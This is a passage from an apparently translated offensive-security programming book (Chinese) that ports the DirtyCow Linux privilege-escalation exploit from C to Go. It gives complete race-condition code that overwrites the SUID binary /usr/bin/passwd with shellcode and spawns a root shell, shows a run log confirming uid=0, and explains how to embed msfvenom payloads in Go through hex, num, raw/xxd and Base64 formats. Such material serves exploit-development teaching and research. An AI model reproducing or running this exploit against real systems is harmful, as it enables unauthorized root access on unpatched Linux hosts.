❸ char suid_binary[] = "/usr/bin/passwd";

❹ unsigned char sc[] = {
     0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
     --snip--
     0x68, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05
   };
   unsigned int sc_len = 177;
```

*Listing 9-6: C 中的初始化*

```
❶ var mapp uintptr
❷ var signals = make(chan bool, 2)
❸ const SuidBinary = "/usr/bin/passwd"

❹ var sc = []byte{
       0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
       --snip--
       0x68, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05,
   }
```

*Listing 9-7: Go 中的初始化*

C 与 Go 之间的翻译相当简单。C 和 Go 的两段代码保持相同的行号，展示 Go 如何实现与 C 代码相应行的类似功能。在这两种情况下，您都通过定义一个`uintptr`变量❶来跟踪映射内存。在 Go 中，您将变量名声明为`mapp`，因为与 C 不同，`map`是 Go 中的保留关键字。接下来，您初始化一个变量，用于信号线程停止处理❷。与 C 代码中使用整数不同，Go 的惯例是使用带缓冲的布尔通道。您显式地定义其长度为`2`，因为将会有两个并发函数需要进行信号传递。接下来，您定义一个指向 SUID 可执行文件的字符串❸，并通过将 Shellcode 硬编码到切片中来完成全局变量的定义❹。与 C 版本相比，Go 代码中省略了一些全局变量，这意味着您将在相应的代码块中按需定义它们。

接下来，我们来看看`madvise()`和`procselfmem()`，这两个主要利用竞态条件的函数。我们将再次将 C 版本与 Go 版本进行比较。

```
void *madviseThread(void *arg)
{
    char *str;
    str=(char*)arg;
    int i,c=0;
    for(i=0;i<1000000 && !stop;i++❶) {
        c+=madvise(map,100,MADV_DONTNEED)❷;
    }
    printf("thread stopped\n");
}

void *procselfmemThread(void *arg)
{
    char *str;
    str=(char*)arg;
    int f=open("/proc/self/mem",O_RDWR);
    int i,c=0;
    for(i=0;i<1000000 && !stop;i++❶) {
     ❸ lseek(f,map,SEEK_SET);
        c+=write(f, str, sc_len)❹;
    }
    printf("thread stopped\n");
}
```

*列表 9-8：C 语言中的竞态条件函数*

```
func madvise() {
    for i := 0; i < 1000000; i++ {
        select {
        case <- signals: ❶
            fmt.Println("madvise done")
            return
        default:
            syscall.Syscall(syscall.SYS_MADVISE, mapp, uintptr(100), syscall.MADV_DONTNEED) ❷
        }
    }
}

func procselfmem(payload []byte) {
    f, err := os.OpenFile("/proc/self/mem", syscall.O_RDWR, 0)
    if err != nil {
        log.Fatal(err)
    }
 for i := 0; i < 1000000; i++ {
        select {
        case <- signals: ❶
            fmt.Println("procselfmem done")
            return
        default:
            syscall.Syscall(syscall.SYS_LSEEK, f.Fd(), mapp, uintptr(os.SEEK_SET)) ❸
            f.Write(payload) ❹
        }
    }
}
```

*列表 9-9：Go 语言中的竞态条件函数*

竞态条件函数使用变体进行信号传递❶。这两个函数都包含`for`循环，循环执行次数非常多。C 语言版本检查`stop`变量的值，而 Go 语言版本则使用`select`语句尝试从`signals`通道读取信号。当信号存在时，函数会返回。如果没有信号等待，`default`情况会被执行。`madvise()`和`procselfmem()`函数之间的主要区别发生在`default`情况中。在我们的`madvise()`函数中，你会向`madvise()`❷函数发出 Linux 系统调用，而在`procselfmem()`函数中，你会发出 Linux 系统调用到`lseek()`❸，并将负载写入内存❹。

以下是 C 语言版本和 Go 语言版本函数的主要区别：

+   Go 语言版本使用通道来确定何时提前退出循环，而 C 语言函数使用整数值来表示在发生线程竞态条件后何时退出循环。

+   Go 语言版本使用`syscall`包来发出 Linux 系统调用。传递给函数的参数包括要调用的系统函数和其所需的参数。你可以通过查找 Linux 文档来了解函数的名称、功能和参数。这就是我们能够调用本地 Linux 函数的方式。

现在，让我们回顾一下`waitForWrite()`函数，该函数监视 SUID 是否有变化，从而执行 shellcode。C 语言版本显示在列表 9-10，Go 语言版本显示在列表 9-11。

```
void *waitForWrite(void *arg) {
    char buf[sc_len];

 ❶ for(;;) {
        FILE *fp = fopen(suid_binary, "rb");

        fread(buf, sc_len, 1, fp);

        if(memcmp(buf, sc, sc_len) == 0) {
            printf("%s is overwritten\n", suid_binary);
            break;
        }
 fclose(fp);
        sleep(1);
    }

 ❷ stop = 1;

    printf("Popping root shell.\n");
    printf("Don't forget to restore /tmp/bak\n");

 ❸ system(suid_binary);
}
```

*列表 9-10：C 语言中的* waitForWrite() *函数*

```
func waitForWrite() {
    buf := make([]byte, len(sc))
 ❶ for {
        f, err := os.Open(SuidBinary)
        if err != nil {
            log.Fatal(err)
        }
        if _, err := f.Read(buf); err != nil {
            log.Fatal(err)
        }
        f.Close()
        if bytes.Compare(buf, sc) == 0 {
            fmt.Printf("%s is overwritten\n", SuidBinary)
            break
        }
        time.Sleep(1*time.Second)
    }
 ❷ signals <- true
    signals <- true

    fmt.Println("Popping root shell")
    fmt.Println("Don't forget to restore /tmp/bak\n")

    attr := os.ProcAttr {
        Files: []*os.File{os.Stdin, os.Stdout, os.Stderr},
    }
    proc, err := os.StartProcess(SuidBinary, nil, &attr) ❸
    if err !=nil {
        log.Fatal(err)
    }
    proc.Wait()
    os.Exit(0)
}
```

*列表 9-11：Go 语言中的* waitForWrite() *函数*

在这两种情况下，代码都定义了一个无限循环，用来监控 SUID 二进制文件的变化❶。C 语言版本使用`memcmp()`检查 shellcode 是否已经写入目标，而 Go 代码使用`bytes.Compare()`。当 shellcode 出现时，你就知道漏洞利用成功，文件已被覆盖。然后，你会跳出无限循环，并通知运行中的线程可以停止了❷。与竞态条件代码一样，Go 语言版本通过通道实现这一点，而 C 语言版本使用整数。最后，你执行的可能是函数中最精彩的部分：现在已经包含恶意代码的 SUID 目标文件❸。Go 语言版本略显冗长，因为你需要传递与 stdin、stdout 和 stderr 对应的属性：分别是指向输入文件、输出文件和错误文件描述符的文件指针。

现在让我们来看一下`main()`函数，它调用了执行这个漏洞利用所需的前述函数。列表 9-12 显示了 C 语言版本，列表 9-13 显示了 Go 语言版本。

```
int main(int argc,char *argv[]) {
    char *backup;

    printf("DirtyCow root privilege escalation\n");
    printf("Backing up %s.. to /tmp/bak\n", suid_binary);

 ❶ asprintf(&backup, "cp %s /tmp/bak", suid_binary);
    system(backup);

 ❷ f = open(suid_binary,O_RDONLY);
    fstat(f,&st);

    printf("Size of binary: %d\n", st.st_size);

 ❸ char payload[st.st_size];
    memset(payload, 0x90, st.st_size);
    memcpy(payload, sc, sc_len+1);

 ❹ map = mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);

    printf("Racing, this may take a while..\n");

 ❺ pthread_create(&pth1, NULL, &madviseThread, suid_binary);
    pthread_create(&pth2, NULL, &procselfmemThread, payload);
    pthread_create(&pth3, NULL, &waitForWrite, NULL);

    pthread_join(pth3, NULL);

    return 0;
}
```

*列表 9-12：C 语言中的* main() *函数*

```
func main() {
    fmt.Println("DirtyCow root privilege escalation")
    fmt.Printf("Backing up %s.. to /tmp/bak\n", SuidBinary)

  ❶ backup := exec.Command("cp", SuidBinary, "/tmp/bak")
     if err := backup.Run(); err != nil {
         log.Fatal(err)
     }

  ❷ f, err := os.OpenFile(SuidBinary, os.O_RDONLY, 0600)
     if err != nil {
         log.Fatal(err)
     }
     st, err := f.Stat()
     if err != nil {
         log.Fatal(err)
     }

     fmt.Printf("Size of binary: %d\n", st.Size())

  ❸ payload := make([]byte, st.Size())
     for i, _ := range payload {
         payload[i] = 0x90
     }
     for i, v := range sc {
         payload[i] = v
     }

  ❹ mapp, _, _ = syscall.Syscall6(
        syscall.SYS_MMAP,
        uintptr(0),
        uintptr(st.Size()),
        uintptr(syscall.PROT_READ),
        uintptr(syscall.MAP_PRIVATE),
        f.Fd(),
        0,
     )

     fmt.Println("Racing, this may take a while..\n")
  ❺ go madvise()
     go procselfmem(payload)
     waitForWrite()
}
```

*清单 9-13：Go 中的* main() *函数*

`main()` 函数首先备份目标可执行文件 ❶。由于最终会覆盖它，因此你不想丢失原始版本；丢失原文件可能会对系统产生不良影响。虽然 C 语言可以通过调用 `system()` 并传入整个命令字符串来运行操作系统命令，但 Go 版本则依赖于 `exec.Command()` 函数，它要求你将命令作为单独的参数传入。接下来，你以只读模式打开 SUID 目标文件 ❷，检索文件统计信息，并用它们来初始化一个与目标文件大小相同的有效载荷切片 ❸。在 C 中，你可以通过调用 `memset()` 填充一个数组为 NOP（0x90）指令，然后通过调用 `memcpy()` 将一部分数组替换为你的 shellcode。在 Go 中，这些便捷的函数是不存在的。

相反，在 Go 中，你需要遍历切片元素，并手动逐个字节地填充它们。完成后，你发出一个 Linux 系统调用，调用 `mapp()` 函数 ❹，将目标 SUID 文件的内容映射到内存中。关于之前的系统调用，你可以通过查阅 Linux 文档找到 `mapp()` 所需的参数。你可能会注意到，Go 代码调用的是 `syscall.Syscall6()` 而不是 `syscall.Syscall()`。`Syscall6()` 函数用于需要六个输入参数的系统调用，正如 `mapp()` 的情况。最后，代码启动了几个线程，同时调用 `madvise()` 和 `procselfmem()` 函数 ❺。随着竞争条件的产生，你调用 `waitForWrite()` 函数，监视 SUID 文件的变化，通知线程停止，并执行你的恶意代码。

为了完整性，清单 9-14 显示了完整的 Go 移植代码。

```
var mapp uintptr
var signals = make(chan bool, 2)
const SuidBinary = "/usr/bin/passwd"

var sc = []byte{
    0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
    --snip--
    0x68, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05,
}

func madvise() {
    for i := 0; i < 1000000; i++ {
        select {
        case <- signals:
            fmt.Println("madvise done")
            return
        default:
            syscall.Syscall(syscall.SYS_MADVISE, mapp, uintptr(100), syscall.MADV_DONTNEED)
        }
    }
}

func procselfmem(payload []byte) {
    f, err := os.OpenFile("/proc/self/mem", syscall.O_RDWR, 0)
    if err != nil {
        log.Fatal(err)
    }
    for i := 0; i < 1000000; i++ {
        select {
        case <- signals:
            fmt.Println("procselfmem done")
            return
        default:
            syscall.Syscall(syscall.SYS_LSEEK, f.Fd(), mapp, uintptr(os.SEEK_SET))
 f.Write(payload)
        }
    }
}

func waitForWrite() {
    buf := make([]byte, len(sc))
    for {
        f, err := os.Open(SuidBinary)
        if err != nil {
            log.Fatal(err)
        }
        if _, err := f.Read(buf); err != nil {
            log.Fatal(err)
        }
        f.Close()
        if bytes.Compare(buf, sc) == 0 {
            fmt.Printf("%s is overwritten\n", SuidBinary)
            break
        }
        time.Sleep(1*time.Second)
    }
    signals <- true
    signals <- true

    fmt.Println("Popping root shell")
    fmt.Println("Don't forget to restore /tmp/bak\n")

    attr := os.ProcAttr {
        Files: []*os.File{os.Stdin, os.Stdout, os.Stderr},
    }
    proc, err := os.StartProcess(SuidBinary, nil, &attr)
    if err !=nil {
        log.Fatal(err)
    }
    proc.Wait()
    os.Exit(0)
}

func main() {
    fmt.Println("DirtyCow root privilege escalation")
    fmt.Printf("Backing up %s.. to /tmp/bak\n", SuidBinary)

    backup := exec.Command("cp", SuidBinary, "/tmp/bak")
    if err := backup.Run(); err != nil {
        log.Fatal(err)
    }

    f, err := os.OpenFile(SuidBinary, os.O_RDONLY, 0600)
    if err != nil {
        log.Fatal(err)
    }
    st, err := f.Stat()
    if err != nil {
 log.Fatal(err)
    }

    fmt.Printf("Size of binary: %d\n", st.Size())

    payload := make([]byte, st.Size())
    for i, _ := range payload {
        payload[i] = 0x90
    }
    for i, v := range sc {
        payload[i] = v
    }

    mapp, _, _ = syscall.Syscall6(
        syscall.SYS_MMAP,
        uintptr(0),
        uintptr(st.Size()),
        uintptr(syscall.PROT_READ),
        uintptr(syscall.MAP_PRIVATE),
        f.Fd(),
        0,
    )

    fmt.Println("Racing, this may take a while..\n")
    go madvise()
    go procselfmem(payload)
    waitForWrite()
}
```

*清单 9-14：完整的 Go 移植版* (/[ch-9/dirtycow/main.go/](https://github.com/blackhat-go/bhg/blob/master/ch-9/dirtycow/main.go/))

为了确认代码是否有效，请在你的易受攻击的主机上运行它。没有什么比看到 root shell 更令人满足的了。

```
alice@ubuntu:~$ go run main.go
DirtyCow root privilege escalation
Backing up /usr/bin/passwd.. to /tmp/bak
Size of binary: 47032
Racing, this may take a while..

/usr/bin/passwd is overwritten
Popping root shell
procselfmem done
Don't forget to restore /tmp/bak

root@ubuntu:/home/alice# id
uid=0(root) gid=1000(alice) groups=0(root),4(adm),1000(alice)
```

如你所见，程序成功运行时，它会备份 */usr/bin/passwd* 文件，竞夺文件句柄控制，使用新的预定值覆盖文件位置，并最终产生一个系统 shell。Linux 的 `id` 命令输出确认 `alice` 用户帐户已被提升到 `uid=0`，这表示获得了 root 权限。

### 在 Go 中创建 Shellcode

在上一节中，你使用了有效 ELF 格式的原始 shellcode 来覆盖一个合法文件，替换为你的恶意版本。你如何自己生成这些 shellcode 呢？事实证明，你可以使用你的常规工具集生成 Go 兼容的 shellcode。

我们将通过 `msfvenom` 来展示如何实现这个操作，`msfvenom` 是一个命令行工具，但我们教给你的集成技术并不局限于特定工具。你可以使用几种方法来处理外部二进制数据，无论是 Shellcode 还是其他任何东西，并将其集成到 Go 代码中。请放心，接下来的页面更多地讨论的是常见的数据表示方法，而非某个特定工具的用法。

Metasploit 框架是一个流行的漏洞利用和后渗透工具包，带有 `msfvenom` 工具，该工具可以将 Metasploit 的任何有效负载生成并转换为通过 `-f` 参数指定的多种格式。不幸的是，没有明确的 Go 转换格式。然而，通过一些微调，你可以轻松地将几种格式集成到 Go 代码中。我们将在这里探索五种格式：C、`hex`、`num`、`raw` 和 Base64，同时记住我们的最终目标是创建一个 Go 中的字节切片。

#### C 转换

如果你指定了 C 转换类型，`msfvenom` 会以一种你可以直接放入 C 代码中的格式生成有效负载。这看起来可能是最合乎逻辑的选择，因为我们在本章早些时候已经详细说明了 C 和 Go 之间的许多相似之处。然而，它并不是我们 Go 代码的最佳选择。为了向你展示原因，看看以下 C 格式的示例输出：

```
unsigned char buf[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
--snip--
"\x64\x00";
```

我们几乎只关心有效负载。为了使其更适合 Go，你需要去掉分号并调整换行符。这意味着你要么需要在所有行的末尾（除了最后一行）显式地添加 `+`，要么完全去掉换行符，生成一个长的连续字符串。对于小型有效负载，这可能是可以接受的，但对于较大的有效负载，这样手动操作会变得很繁琐。你很可能会转向其他 Linux 命令，如 `sed` 和 `tr` 来清理它。

一旦清理了有效负载，你就会得到一个字符串形式的有效负载。要创建一个字节切片，你可以输入类似以下的内容：

```
payload := []byte("\xfc\xe8\x82...").
```

这不是一个坏的解决方案，但你可以做得更好。

#### 十六进制转换

在前面的尝试基础上进行改进，我们来看一个 `hex` 转换。使用这种格式，`msfvenom` 会生成一个长的、连续的十六进制字符字符串：

```
fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ff...6400
```

如果这个格式看起来很熟悉，那是因为你在移植 Java 反序列化漏洞时使用过它。你将这个值作为字符串传递给 `hex.DecodeString()`。它会返回一个字节切片和错误信息（如果存在）。你可以这样使用它：

```
payload, err := hex.DecodeString("fce8820000006089e531c0648b50308b520c8b52148b
72280fb74a2631ff...6400")
```

将其转为 Go 代码其实非常简单。你只需要将字符串用双引号包裹，并传递给函数即可。然而，较大的有效负载会生成一个可能不太美观的字符串，可能会换行或超出推荐的页面边距。你仍然可以使用这种格式，但我们提供了第三种选择，以防你希望代码既实用又美观。

#### 数字转换

`num` 转换生成一个以逗号分隔的字节列表，采用数字十六进制格式：

```
0xfc, 0xe8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xc0, 0x64, 0x8b, 0x50, 0x30,
0x8b, 0x52, 0x0c, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28, 0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff,
--snip--
0x64, 0x00
```

你可以像这样直接使用这个输出来初始化字节切片：

```
payload := []byte{
    0xfc, 0xe8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xc0, 0x64, 0x8b, 0x50, 0x30,
    0x8b, 0x52, 0x0c, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28, 0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff,
    --snip--
    0x64, 0x00,
}
```

因为`msfvenom`的输出是以逗号分隔的，字节列表可以在行之间很好地换行，而不会笨拙地附加数据集。唯一需要修改的是在列表的最后一个元素后添加一个逗号。这种输出格式可以轻松集成到你的 Go 代码中并以愉快的方式格式化。

#### 原始转换

`raw`转换会生成原始二进制格式的有效负载。如果在终端窗口中显示这些数据，可能会产生一些不可打印的字符，类似于这样：

```
ÐÐÐ`ÐÐ1ÐdÐP0ÐR
Ð8ÐuÐ}Ð;}$uÐXÐX$ÐfÐY IÐ:IÐ4ÐÐ1ÐÐÐÐ
```

除非你以不同格式生成数据，否则无法在代码中使用这些数据。那么你可能会问，为什么我们要讨论原始二进制数据呢？嗯，原因是无论是从工具生成的有效负载、二进制文件的内容还是加密密钥，遇到原始二进制数据是相当常见的。了解如何识别二进制数据并将其处理到 Go 代码中将非常有价值。

使用 Linux 中的`xxd`工具和`-i`命令行开关，你可以轻松地将原始二进制数据转换为前一节中的`num`格式。一个示例`msfvenom`命令如下所示，你将`msfvenom`生成的原始二进制输出通过管道传入`xxd`命令：

```
$ msfvenom -p [payload] [options] - f raw | xxd -i
```

你可以直接将结果分配给字节切片，如前一节所示。

#### Base64 编码

尽管`msfvenom`不包含纯 Base64 编码器，但在实际应用中经常会遇到 Base64 格式的二进制数据，包括 shellcode。Base64 编码会增加数据的长度，但也能避免丑陋或无法使用的原始二进制数据。例如，与`num`格式相比，这种格式在代码中更易于处理，并且可以简化通过 HTTP 等协议的数据传输。因此，值得讨论如何在 Go 中使用它。

生成二进制数据的 Base64 编码表示的最简单方法是使用 Linux 中的`base64`工具。它允许你通过标准输入或文件来编码或解码数据。你可以使用`msfvenom`生成原始二进制数据，然后使用以下命令对结果进行编码：

```
$ msfvenom -p [payload] [options] - f raw | base64
```

很像你在 C 中的输出，生成的有效负载包含换行符，你需要在将其作为字符串包含到代码中之前处理这些换行符。你可以使用 Linux 中的`tr`工具清理输出，去除所有换行符：

```
$ msfvenom -p [payload] [options] - f raw | base64 | tr -d "\n"
```

编码后的有效负载现在将以单一的连续字符串存在。在你的 Go 代码中，你可以通过解码该字符串来获得原始有效负载作为字节切片。你可以使用`encoding/base64`包来完成这项工作：

```
payload, err := base64.StdEncoding.DecodeString("/OiCAAAAYInlMcBki1Awi...WFuZAA=")
```

现在，你将能够处理原始二进制数据，而无需担心所有那些丑陋的部分。

#### 关于汇编的说明

讨论 shellcode 和低级编程时，至少提到汇编是不可或缺的。不幸的是，对于 shellcode 编写者和汇编艺术家来说，Go 与汇编的集成是有限的。与 C 语言不同，Go 不支持内联汇编。如果你想在 Go 代码中集成汇编，你是可以做到的，但有些限制。你需要在 Go 中定义一个函数原型，并将汇编指令放在一个单独的文件中。然后，你可以运行 `go build` 来编译、链接并生成最终的可执行文件。虽然这看起来不算过于复杂，但问题在于汇编语言本身。Go 只支持基于 Plan 9 操作系统的汇编变种。这个系统是由贝尔实验室创建的，并在 20 世纪末使用。汇编语法，包括可用的指令和操作码，几乎不存在。这使得编写纯 Plan 9 汇编变得艰难，甚至几乎不可能。

### 总结

尽管缺乏汇编的可用性，Go 的标准包提供了大量功能，适合漏洞猎人和漏洞开发者使用。本章介绍了模糊测试、漏洞移植以及处理二进制数据和 shellcode。作为额外的学习练习，我们鼓励你浏览 [*https://www.exploit-db.com/*](https://www.exploit-db.com/) 漏洞数据库，并尝试将现有漏洞移植到 Go 中。根据你对源语言的熟悉程度，这项任务可能显得令人不知所措，但它可以是一个理解数据处理、网络通信和低级系统交互的绝佳机会。

在下一章，我们将从漏洞利用活动中抽离出来，专注于制作可扩展的工具集。
